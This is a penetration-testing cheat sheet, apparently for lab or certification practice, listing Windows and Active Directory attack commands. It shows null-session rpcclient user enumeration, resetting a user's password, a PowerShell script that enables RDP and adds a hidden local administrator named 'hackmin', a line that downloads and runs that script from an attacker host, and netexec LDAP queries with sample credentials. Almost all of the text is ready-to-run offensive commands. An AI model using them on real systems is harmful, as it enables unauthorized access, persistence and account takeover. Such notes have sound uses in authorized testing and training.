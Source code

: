 * [ ] enumerate `rpcclient -U '' -N <ip>` then try `enumdomusers`,`querydispinfo`,etc.
* [ ] Only users:

```
rpcclient -U "" <ip> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > userlist.txt
```

* [ ] User info can be changed with `setuserinfo`. To change oassword:

```
setuserinfo christopher.lewis 23 'Admin!23'
```

### RDP

* [ ] To connect to rdp:

```
xfreerdp /u:offsec /p:lab /v:192.168.183.250 /cert-ignore /compression /auto-reconnect /drive:/tmp,tmp +clipboard
```

If any black screen problems:

```
sudo ifconfig tun0 mtu 1250
```

* [ ] If administrator get RDP by using Enable\_RDP.ps1 script:

```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

$username = "hackmin"
$password = ConvertTo-SecureString "Password123$" -AsPlainText -Force
New-LocalUser -Name "$username" -Password $password -FullName "$username" -Description "hackmin"
 
Add-LocalGroupMember -Group "Administrators" -Member "$username"
```

```
iex ((New-Object System.Net.WebClient).DownloadString('http://${ATTACKER_IP}:${ATTACKER_PORT}/Enable_RDP.ps1'))
```

### Ldap

* [ ] Netexec ldap more to less info order:

```
nxc ldap 192.168.235.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --query "(objectClass=*)" "*"
```

```
nxc ldap 192.168.235.122 -u '' -p '' --query "(sAMAccountName=*)" "*"
```

```
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
```

